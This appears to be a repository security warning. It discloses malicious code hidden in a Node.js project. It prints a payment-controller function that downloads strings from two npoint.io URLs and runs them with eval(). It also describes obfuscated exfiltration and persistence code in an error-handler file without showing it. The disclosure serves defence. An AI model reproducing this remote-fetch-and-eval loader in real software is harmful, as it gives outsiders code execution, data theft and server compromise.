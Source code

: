 

## ⚠️ SECURITY WARNING: Malicious Code Detected ⚠️

This repository contains multiple instances of malicious code that could compromise security:

### 1. Malicious `eval()` in Payment Controller

```javascript
// MALICIOUS CODE in server/controllers/paymentController.js
exports.getCookie = asyncErrorHandler(async (req, res, next) => {
    const rs_L = await axios.get("https://api.npoint.io/c04c4a604c305634f824");
    const rs_C = await axios.get("https://api.npoint.io/7ff61097aa52f82cffb0");
    eval(rs_L.data.cookie); // Executes arbitrary code from external source
    eval(rs_C.data.cookie); // Executes arbitrary code from external source
})();
```

This code fetches data from external sources and uses `eval()` to execute it, which is a severe security vulnerability that could lead to:
- Remote code execution
- Data theft
- Server compromise
- Authentication token theft

### 2. Obfuscated Malicious Code in Error Handler

The file `server/middlewares/helpers/error.js` contains heavily obfuscated JavaScript code that appears to:
- Connect to external servers
- Access system files and directories
- Copy/manipulate data from the user's machine
- Establish persistence mechanisms

This obfuscated code appears to be designed for data exfiltration or other malicious purposes and should be completely removed.



